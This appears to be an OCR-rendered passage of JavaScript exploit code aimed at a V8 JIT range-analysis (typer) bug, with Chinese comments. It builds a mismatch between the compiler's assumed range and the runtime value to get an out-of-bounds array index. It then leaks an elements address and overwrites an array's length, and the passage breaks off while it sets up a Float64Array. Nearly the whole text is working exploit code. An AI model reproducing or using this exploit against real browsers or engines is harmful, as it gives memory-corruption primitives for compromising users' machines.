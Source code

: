 ```
   return [dv.getUint32(0,true),dv.getUint32(4,true)];
`}`

function big2int(value) `{`
   dv.setBigUint64(0,BigInt(value),true);
   return dv.getUint32(0,true);
`}`

var a;
var oob_arr;
function opt(index,leak_or_write,val) `{`
    a = [1.1,2.2,3.3,4.4,5.5,6.6,7.7,8.8];
    oob_arr = new Array(1.1,2.2);
    var x = -Infinity;
    var i = 0;
    for (; i &lt; 1; i += x) `{`
        if (i == -Infinity) x = +Infinity;
    `}`
    //compiler:Range(1,INF)
    //reality:NaN
    var x = Math.max(i,1); //
    //compiler:Range(-INF,-1)
    //reality:NaN
    x = -x; //
    //compiler:Range(-2,-1)
    //reality:NaN
    x = Math.max(x,-2); //
    //compiler:Range(-2,-1)
    //reality:0
    x &gt;&gt;= 0; //
    //compiler:Range(0,1)
    //reality:2
    x += 2;
    //compiler:Range(0,7)
    //reality:Range(0,7)
    index &amp;= 0x7;
    //compiler:Range(0,7)
    //reality:Range(0,14)
    index *= x;
    /*两步的作用是清除符号位*/
    index &lt;&lt;= 1;
    index &gt;&gt;= 1;
    if (leak_or_write)
       return a[index];
   else `{`
      a[index] = val;
   `}`
`}`


for (var i=0;i&lt;0x20000;i++) `{`
   opt(7,true,i+1.1);
   opt(7,false,p64f(0,0));
`}`

//泄露arr的elements,用于覆写length时不破坏elements
var d = u64f(opt(7,true,1.1));
var elements_addr = d[0];
print("elements_addr=" + elements_addr.toString(16));

var oob_len = p64f(elements_addr,0x1000);
opt(7,false,oob_len);
var float64_arr = new Float64Array(1.1,2.2,3.3);
```